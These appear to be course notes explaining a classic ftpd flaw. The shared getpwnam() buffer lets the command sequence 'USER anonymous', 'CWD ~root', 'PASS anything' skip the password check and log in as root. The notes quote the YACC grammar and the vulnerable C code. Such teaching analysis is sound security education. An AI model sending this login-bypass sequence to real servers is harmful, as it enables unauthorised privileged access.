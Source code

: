 ### FTP Attack
Consider the following command sequence:
```
USER anonymous # set anonlymous login flag, retrieve anonymous entry from /etc/passwd
CWD ˜root
PASS anything
```
The trick: the `legal sequence` is:
```
USER
PASS
session commands
```
`ftpd` grammar treats all commands the same, including `USER` and `PASS`.

A closer look at the Actual YACC Grammar:
```
cmd : USER SP username CRLF
| PASS SP password CRLF
| CWD check_login SP pathname CRLF # pseudo-rule, just a hook for some C code that checks the logged in flag
| ...
```
How to find pathname?
```
pathname : STRING
= {
if ($1 && strncmp((char *) $1, "˜", 1) == 0) {
    $$ = (int)*glob((char *) $1);
    if (globerr != NULL) {
        reply(550, globerr);
        $$ = NULL;
    }
    free((char *) $1);
} else
    $$ = $1;
}
;
```
* The program is executed only if the grammar rule is matched.
* If the first character is `~`, it tries to do home directory expansion $$\rightarrow$$ replaces `~smb` with `/home/smb`.
* `glob()` looks up `smb's` record in `/etc/passwd` $$\rightarrow$$ two different routines are retrieving `/etc/passwd` entries.

#### Retrieve `/etc/passwd` twice..
> Programmer forgot the semantics of `getpwnam()`

* Processing `USER ananymous` $$\iff$$ `getpwnam("anonymous");`.
* Processing `~root` $$\iff$$ `getpwnam("root");`
* `~root` overwrites the buffer used by `USER ananymous`.
* Code sequence:

    ```
    pw = getpwnam("anonymous");
    if (user == "anonymous") guest = 1;
    ...
    globpw = getpwnam("root");
    ...
    if (!guest) { check password }
    chdir(pw->pw_dir);
    if (guest) chroot(pw->pw_dir);
    setuid(pw->pw_uid);
    ```
